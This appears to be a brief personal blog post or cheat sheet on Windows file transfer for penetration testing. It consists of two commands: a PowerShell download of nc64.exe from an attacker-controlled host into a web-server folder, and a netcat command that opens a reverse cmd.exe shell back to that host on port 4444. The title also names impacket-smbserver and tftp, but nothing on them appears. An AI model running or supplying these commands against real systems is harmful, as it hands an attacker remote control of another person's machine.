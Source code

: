 ```yaml
---
layout: post
title:  "file transfer - windows - powershell / impacket-smbserver / tftp"
date:   2022-01-01
categories: web
---
```



## Download Files

```bash

powershell.exe Invoke-WebRequest -Uri "http://<my ip>:81/netcat/nc64.exe" -OutFile "C:\xampp\htdocs\nc.exe"

```

## Reverse Shell


```bash

cmd.exe /c C:\xampp\htdocs\nc.exe -e cmd.exe <my ip> 4444

```